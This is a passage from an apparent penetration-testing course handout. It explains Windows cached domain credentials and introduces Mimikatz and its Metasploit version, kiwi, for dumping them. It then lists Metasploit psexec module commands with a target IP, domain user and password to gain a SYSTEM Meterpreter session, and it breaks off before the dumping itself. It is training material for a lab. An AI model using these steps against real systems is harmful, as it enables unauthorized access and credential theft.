 According to Windows, each unique user's logon information is cached locally so that in the event that a DC is unavailable during subsequent logon attempts, they are able to log on. The cached logon information is stored from the previous logon session.

- Even as SYSTEM, viewing the contents of the registry key would not yield any decipherable hash, as the passwords are hashed *and* salted using a hashing algorithm called **MsCacheV2**. However, we'll use tools that are able to decrypt the contents. 

#### Mikikatz and Kiwi

- **Mimikatz** is a Windows-purposed credential dumping tool that is able to decrypt almost all stored credentials in Windows.
- It is outside the scope of our class to go into details on how Mimikatz works.
- For our class, we'll use the Metasploit version of Mimikatz called **`kiwi`**. 

Let's explore how to use `kiwi`. 

#### Mimikatz Demonstration

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module: `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the results of the command.](Images/psexecoptions.PNG)
	